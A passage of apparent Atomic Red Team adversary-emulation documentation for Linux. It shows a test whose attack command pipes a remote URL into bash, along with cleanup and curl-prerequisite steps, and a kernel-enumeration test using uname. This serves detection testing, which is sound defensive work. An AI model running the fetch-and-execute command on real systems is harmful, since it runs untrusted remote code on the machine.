 
#### Attack Commands: Run with `sh`! 


```sh
cd /tmp
curl -s #{remote_url} |bash
ls -la /tmp/art.txt
```

#### Cleanup Commands:
```sh
rm /tmp/art.txt
```



#### Dependencies:  Run with `bash`!
##### Description: Check if curl is installed on the machine.
##### Check Prereq Commands:
```bash
if [ -x "$(command -v curl)" ]; then echo "curl is installed"; else echo "curl is NOT installed"; exit 1; fi
```
##### Get Prereq Commands:
```bash
which apt && apt update && apt install -y curl || which pkg && pkg update && pkg install -y curl
```




<br/>
<br/>

## Atomic Test #13 - Current kernel information enumeration
An adversary may want to enumerate the kernel information to tailor their attacks for that particular kernel. The following command will enumerate the kernel information.

**Supported Platforms:** Linux


**auto_generated_guid:** 3a53734a-9e26-4f4b-ad15-059e767f5f14






#### Attack Commands: Run with `sh`! 


```sh
uname -srm
```






<br/>
